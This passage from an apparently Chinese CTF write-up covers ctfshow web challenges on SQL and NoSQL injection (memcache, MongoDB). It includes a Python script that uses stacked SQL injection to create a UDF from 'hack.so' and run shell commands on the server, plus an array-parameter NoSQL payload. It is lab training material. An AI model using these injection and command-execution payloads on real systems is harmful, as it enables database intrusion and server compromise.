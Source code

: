```
#创建自定义函数并执行恶意命令
requests.get(url+"?id=1';create function sys_eval returns string soname 'hack.so'%23")
r=requests.get(url+"?id=1';select sys_eval('cat /f*')%23")
print(r.text)
```



#### web249

```php
sql语句

  //无
  $user = $memcache->get($id);
      
返回逻辑

  //无过滤

```

![image-20250218221510397](../assets/image-20250218221510397.png)

payload:

```
?id[]=flag
```



#### web250

```php
sql语句

  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

[ctfshow-web入门-sql注入（web249-web253）nosql 注入_ctfshow web250-CSDN博客](https://blog.csdn.net/Myon5/article/details/142187219)
